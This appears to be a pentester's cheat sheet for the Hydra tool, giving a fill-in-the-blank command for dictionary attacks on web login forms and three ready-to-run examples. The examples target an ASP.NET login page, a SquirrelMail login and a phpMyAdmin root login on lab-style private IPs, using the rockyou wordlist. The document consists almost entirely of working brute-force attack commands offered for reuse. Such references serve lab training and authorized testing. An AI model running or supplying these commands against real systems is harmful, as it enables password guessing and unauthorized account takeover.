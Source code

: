 # Hydra - Webpage

*********************************************************************************
Items inside [SQUARE-BRACKETS] indicate changeable (fill in the blank) fields.  
Note: Bracket characters themselves [ ] require removal. See examples.
*********************************************************************************

### Webpage Dictionary Attack:
```
hydra -l [USERNAME] -P [WORDLIST-PATH] [TARGET-IP] http-post-form "/[LOGIN-PAGE-PATH]:[REQUEST-PAYLOAD]:[LOGIN-FAIL-TEXT]"
```
Example:
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.86.128 http-post-form "/Account/login.aspx:__VIEWSTATE=J7%2FrKT%2FRbzXElHvOFArr4HX0BUp05PUs%2Bjl4fN5QtFnsigr6tjwFZkWaUW9RaCNkl5wcaaA9I71WXBKsdywllsO45a8kdE%2BO2GeciLswYLZgMhEIYMOLKvVE1g9%2FuxmOjygsPrfW43YX1axgD3V%2FmbHd2lx7jcwje7Qgkp065G2LekTQ&__EVENTVALIDATION=nIJxL4rdGJE3KYMzFDmVH35CAPYLfmVh68KpFWCfpmOAp8i4dLgnYkYLVP3UEDV8IiIqX6kXoIwujnQvd7xTK1Tbiqg5RF0fYL3q6nazJk37P%2BrLs8lq043TvaeMwGi4uqTkx2onf8prQt9NNxgtS4oXE0haNUx6xQId8O8kqlZfYRAG&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"
```
Another Example:
```
hydra -l Kyser -P wordlist.txt 10.10.174.36 -V http-form-post ‘/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:F=Unknown User or password incorrect.’
```
And Another Example:
```
hydra -l root -P /usr/share/wordlists/rockyou.txt 10.10.197.90  http-post-form "/phpmyadmin/index.php:pma_username=root&pma_password=^PASS^&server=1&target=index.php&token=e993beb24a009a9e4f0f7c92c4d63924:#1698 - Access denied for user 'root'@'localhost'"
```
